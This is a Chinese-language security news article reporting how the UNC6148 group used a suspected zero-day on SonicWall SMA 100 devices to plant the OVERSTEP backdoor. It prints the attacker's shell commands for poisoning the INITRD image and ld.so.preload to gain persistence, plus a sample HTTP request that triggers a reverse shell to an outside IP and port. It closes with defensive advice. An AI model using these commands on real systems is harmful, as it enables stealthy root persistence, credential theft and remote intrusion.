 #  SonicWall SMA设备零日RCE漏洞遭利用，部署OVERSTEP勒索软件  
 FreeBuf   2025-07-18 10:31  
  
![](https://mmbiz.qpic.cn/mmbiz_gif/qq5rfBadR38jUokdlWSNlAjmEsO1rzv3srXShFRuTKBGDwkj4gvYy34iajd6zQiaKl77Wsy9mjC0xBCRg0YgDIWg/640?wx_fmt=gif "")  
  
  
![](https://mmbiz.qpic.cn/mmbiz_jpg/qq5rfBadR39qt8cDGMxraNibg1nP3VsQJBic4UCwoXLEdZYL5AslqVnc6phUibpHVecrInY5cSpvXAJ8nQTrR0wVg/640?wx_fmt=jpeg&from=appmsg "")  
  
  
调查人员发现，SonicWall已停产的SMA 100系列设备再次成为攻击目标，攻击者利用疑似零日远程代码执行漏洞，结合名为OVERSTEP的复杂后门程序发起隐蔽攻击。  
  
  
**Part01**  
## 攻击链分析：从凭证窃取到勒索部署  
##   
  
这起被归因于经济利益组织UNC6148的攻击行动，首先窃取管理员凭证和一次性密码种子，随后完全控制设备，最终外泄数据并准备部署勒索软件。  
  
  
攻击链始于一系列HTTP请求，最终使攻击者在设备上获得shell访问权限——这在正常情况下本应无法实现。Google威胁情报分析师指出，攻击者激活shell后会导出设备配置，悄悄注入恶意规则，并将base64编码的二进制文件上传至持久性/cf  
分区。  
  
  
该二进制文件随后被复制到/usr/lib/libsamba-errors.so.6，并通过/etc/ld.so.preload强制在每个进程启动时加载，立即赋予攻击者对设备的root级访问权限。调查人员将初始入侵点与犯罪论坛长期交易的多个SMA漏洞之一相关联。  
  
  
**Part02**  
## 历史漏洞关联分析  
  
  
下表总结了近三年来相关攻击活动利用的最关键漏洞，这些漏洞要么可直接执行代码，要么提供凭证窃取路径：  
  
  
![](https://mmbiz.qpic.cn/mmbiz_png/qq5rfBadR39qt8cDGMxraNibg1nP3VsQJrvJn53ARoOT4tGbt4IrlR8La5suydYWLSZCRKuEfwDh2sxzS2EDKZA/640?wx_fmt=png&from=appmsg "")  
  
  
dopasswords命令执行的Shell命令显示，OVERSTEP将凭证数据库压缩为可通过web访问的TAR存档，确保攻击者能轻松下载。  
  
  
**Part03**  
## 持久化策略：劫持启动序列  
  
  
一旦获得立足点，UNC6148通过重写/etc/rc.d/rc.fwboot中的bootCurrentFirmware()例程来巩固持久性。修改后的脚本会挂载设备的压缩初始RAM磁盘（INITRD），植入木马化库文件，并重写INITRD.GZ使恶意代码先于任何合法服务加载。  
  
  
时间戳"touch"操作使文件日期与官方内核镜像保持一致，干扰快速元数据检查。以下是攻击者执行的代码片段：  
```
# Extract and poison INITRD
gzip -d $fwLoc/INITRD.GZ
mount -o loop $fwLoc/INITRD $fwLoc/zzz
cp /cf/libsamba-errors.so.6 $fwLoc/zzz/usr/lib/
echo /usr/lib/libsamba-errors.so.6 > $fwLoc/zzz/etc/ld.so.preload
umount $fwLoc/zzz && gzip $fwLoc/INITRD
mv $fwLoc/INITRD.gz $fwLoc/INITRD.GZ
/usr/local/sbin/kexec -l $fwLoc/BZIMAGE --append="`cat $fwLoc/LINUX.OPT`"
/usr/local/sbin/kexec -e
```  
  
  
设备重启后，包括负责日志记录的web服务器在内的所有动态二进制文件都会链接到恶意库。OVERSTEP会hookopen*、readdir*和write函数以隐藏自身，并解析输入缓冲区中的dobackshell或dopasswords字符串。  
  
  
由于在被劫持的write调用中执行了内存日志篡改，像https://device/query?q=dobackshell,1.2.3.4,4444这样的单个HTTP GET请求就能触发反向shell，而不会在磁盘日志中留下痕迹。结果是建立了弹性立足点：只要被盗凭证仍然有效，即使完全打补丁的设备也可能被重新入侵。  
  
  
Google分析师敦促防御者对磁盘进行离线镜像，轮换所有密码和OTP种子，并检查/etc/ld.so.preload是否存在——该文件在SMA硬件上的存在"等同于已被入侵"。  
  
  
**参考来源：**  
  
SonicWall SMA Devices 0-Day RCE Vulnerability Exploited to Deploy OVERSTEP Ransomware  
  
https://cybersecuritynews.com/sonicwall-sma-devices-0-day-rce-vulnerability/  
  
  
###   
###   
###   
  
**推荐阅读**  
  
[](https://mp.weixin.qq.com/s?__biz=MjM5NjA0NjgyMA==&mid=2651324992&idx=1&sn=8303e67651ddba23a73497aeb18955fa&scene=21#wechat_redirect)  
  
### 电台讨论  
  
****  
  
  
  
![图片](https://mmbiz.qpic.cn/mmbiz_gif/qq5rfBadR3icF8RMnJbsqatMibR6OicVrUDaz0fyxNtBDpPlLfibJZILzHQcwaKkb4ia57xAShIJfQ54HjOG1oPXBew/640?wx_fmt=gif&wxfrom=5&wx_lazy=1&tp=webp "")  
  
   
  
